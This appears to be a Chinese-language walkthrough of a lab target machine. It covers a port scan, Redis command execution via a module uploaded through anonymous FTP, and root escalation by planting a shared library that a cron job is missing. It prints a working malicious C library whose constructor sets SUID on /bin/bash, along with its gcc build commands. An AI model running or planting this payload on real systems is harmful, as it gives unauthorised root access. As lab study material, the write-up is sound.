# 信息收集

## nmap




# redis加载模块

这个靶机考察了redis加载模块攻击，可以通过上传redis模块进行命令执行

## ftp上传模块

https://github.com/n0b0dyCN/RedisModules-ExecuteCommand

使用make编译之后，使用ftp上传到靶机，该靶机的ftp存在匿名认证，并且可以上传



## redis加载模块

redis也可以匿名认证，通过MODULE load 加载模块



然后就可以命令执行







# 提权

有一个每分钟的自动定时任务，运行这个任务缺少utils.so





提权思路：上传一个恶意的c文件，利用gcc编译为so文件，定时任务运行时就会执行恶意的c文件，利用ftp上传

```c
//gcc -shared -o libcustom.so -fPIC libcustom.c

#include <stdio.h>
#include <unistd.h>
#include <sys/types.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject(){
    setuid(0);
    setgid(0);
    printf("I'm the bad library\n");
    system("chmod +s /bin/bash");
}
```

```shell
find / -writable 2>/dev/null
```

查找可写的目录



```
gcc -shared -fPIC /usr/tmp/privilege.c -o utils.so
```

将编译后的文件给予执行权限放到`/usr/local/lib/dev`下，然后等待计划任务执行



